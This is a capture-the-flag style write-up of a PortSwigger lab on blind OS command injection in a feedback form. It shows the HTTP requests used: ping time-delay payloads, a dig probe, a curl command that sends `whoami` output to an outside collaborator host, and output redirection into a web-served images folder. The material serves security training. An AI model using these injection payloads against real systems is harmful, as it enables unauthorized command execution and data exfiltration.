

# [Lab: Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

## Lab

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:

```path
/var/www/images/
```

The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the `whoami` command and retrieve the output.

## Scan

- burpsuite scanner detected:
  - `OS command injection` (decoded body):

    ```http
    POST /feedback/submit HTTP/1.1

    csrf=QdYdqzSGm3lFDUxAZ5UCx32NoAg4cWE0&name=test&email=test@test.test|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1&subject=test@test.test&message=test
    ```

    - The application took 20959 milliseconds to respond to the request

  - `SQL injection`

## manual

oob interaction:

```http
POST /feedback/submit HTTP/1.1

csrf=ebSQsO22WEDfFwr5S41goPn5rvO5nYvk&name=a&email=x||dig+collaborator||
&subject=a&message=a
```

check collaborator:



## Solutions

Solution 1:

  ```http
  POST /feedback/submit HTTP/1.1

  csrf=ebSQsO22WEDfFwr5S41goPn5rvO5nYvk&name=a&email=x||curl+zqt5ux98hv6q0gi102vxrr0jmas1gr4g.oastify.com+-d+`whoami`||
  &subject=a&message=a
  ```

- request to collaborator:

  ```http
  POST / HTTP/1.1

  peter-7CGZvJ
  ```

but the lab is still marked as not solved.

Solutions 2:

  ```http
  POST /feedback/submit HTTP/1.1

  csrf=ebSQsO22WEDfFwr5S41goPn5rvO5nYvk&name=a&email=x||echo+`whoami`+>+/var/www/images/test.txt||&subject=a&message=a
  ```

  ```http
  GET /image?filename=test.txt HTTP/1.1

  HTTP/1.1 200 OK

  peter-7CGZvJ
  ```

solved
